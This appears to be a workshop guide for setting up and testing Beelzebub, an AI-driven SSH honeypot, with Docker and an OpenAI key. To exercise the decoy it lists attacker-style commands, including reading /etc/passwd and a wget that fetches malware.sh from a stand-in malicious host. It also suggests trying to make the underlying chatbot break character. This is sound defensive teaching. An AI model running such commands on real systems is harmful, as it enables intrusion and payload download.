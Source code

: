 Beelzebub is an advanced honeypot framework designed to provide a highly secure environment for detecting and analyzing cyber attacks. It offers a low code approach for easy implementation and uses AI to mimic the behavior of a high-interaction honeypot

You can find the original GitHub of at [Beelzebub Repo](https://github.com/mariocandela/beelzebub)

# Setup
Participants will deploy and monitor an AI-powered SSH honeypot (Beelzebub) to detect and analyze attacker behavior in real time

- $`sudo su -`
- $`apt update && apt upgrade -y`
- $`systemctl enable --now docker`
- $`cd /opt`
- $`git clone https://github.com/mariocandela/beelzebub.git`

### Get the ChatGPT Api Key
- Go to [ChatGPT](https://chatgpt.com/) and create an account if you don’t have one
- Make sure you have credits or a payment method at [Billing Setting](https://platform.openai.com/settings/organization/billing/overview)
- Go to [API Keys](https://platform.openai.com/api-keys) and create a new key
- Save this key as you will only see it once!

### Deployment
- Make sure you are into **/opt/beelzebub/**
- $`nano docker-compose.yml` - Put your key here
<img width="295" height="53" alt="image" src="https://github.com/user-attachments/assets/eca9345f-c69c-45f2-8a00-5cf389e42b3b" />

- Also comment the **Default SSH Mapping**(ssh 22 port)
<img width="176" height="81" alt="image" src="https://github.com/user-attachments/assets/f02190d4-36ec-4638-8817-aae8a33ece43" />

- $`cd configurations/services/`
- $`mv ./ssh-22.yaml ~`
- $`nano ./ssh-2222.yaml` - Add your key with double quotes around it like `OPENAI_API_KEY: "your_api_key_here"`
- $`cd /opt/beelzebub/`
- $`docker-compose build`
- $`docker-compose up -d`

# Try it
Connect to it like
- $`ssh -p 2222 root@127.0.0.1` - use password "**1234**"
- Try using any commands like **ls** or **id**
<img width="659" height="126" alt="image" src="https://github.com/user-attachments/assets/914c1f89-c3d0-412d-bae6-7b9fcee70d9e" />

Everything you see is AI generated, and that's what an attacker would see

Cool, right?

- Try running suspicious commands an attacker would use
<pre>uname -a
cat /etc/passwd
wget http://malicious.example/malware.sh
id</pre>

Now exit the session to export the logs

- $`cd /opt/beelzebub/`
- $`docker-compose logs -f`
- $`docker-compose logs > honeypot.log`

Take your time into analyzing the logs and seeing how they are being built

Try to make ChatGpt break character, this method, like anything else in cybersecurity isn't flawless, but it surely tricks hackers and does its job, **to increase Attack Time**



